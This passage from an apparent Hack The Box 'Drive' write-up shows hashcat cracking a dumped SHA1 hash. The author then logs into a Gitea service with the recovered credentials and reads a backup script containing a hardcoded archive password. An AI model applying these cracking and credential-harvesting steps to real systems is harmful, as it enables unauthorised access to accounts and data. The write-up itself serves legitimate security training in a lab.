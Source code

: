 ```
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-penryn-Intel(R) Core(TM) i5-10210U CPU @ 1.60GHz, 2914/5893 MB (1024 MB allocatable), 3MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

INFO: All hashes found as potfile and/or empty entries! Use --show to display them.

Started: Mon Oct 16 03:49:40 2023
Stopped: Mon Oct 16 03:49:41 2023
                                                                                                                                      
┌──(root㉿kali)-[~/ctf/hack-the-box/drive]
└─# hashcat -m 124 marincruz.txt /root/deauth.txt --force --show
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f:Xk4@KjyrYv8t194L!
```

- I cracked the password before hashes already in my potfile, but hash corresponds to `martin` password.

- Now let’s try accessing the gitea service again but this time around we use martin full name we found in database dump `martincruz`.

- Finally, we have access to the gitea service and on further inspection we find a repo and there’s some file in 
there: `db_backup.sh` which is a script to decrypt the 7-Zip compression format backup files in there too, 
lets download the file to our machine and use the password in the script to decrypt the files and then view them.

```
mv /root/Downloads/db_backup.sh /root/ctf/hack-the-box/drive 
                                                                                                                                      
┌──(root㉿kali)-[~/ctf/hack-the-box/drive]
└─# ls
1_Dec_db_backup.sqlite3.7z  1_Oct_db_backup.sqlite3.7z  db_backup.sh  marincruz.txt
1_Nov_db_backup.sqlite3.7z  1_Sep_db_backup.sqlite3.7z  db.sqlite3
                                                                                                                                      
┌──(root㉿kali)-[~/ctf/hack-the-box/drive]
└─# cat db_backup.sh 
#!/bin/bash
DB=$1
date_str=$(date +'%d_%b')
7z a -p'H@ckThisP@ssW0rDIfY0uC@n:)' /var/www/backups/${date_str}_db_backup.sqlite3.7z db.sqlite3
cd /var/www/backups/
ls -l --sort=t *.7z > backups_num.tmp
backups_num=$(cat backups_num.tmp | wc -l)
if [[ $backups_num -gt 10 ]]; then
      #backups is more than 10... deleting to oldest backup
      rm $(ls  *.7z --sort=t --color=never | tail -1)
      #oldest backup deleted successfully!
fi
rm backups_num.tmp
```
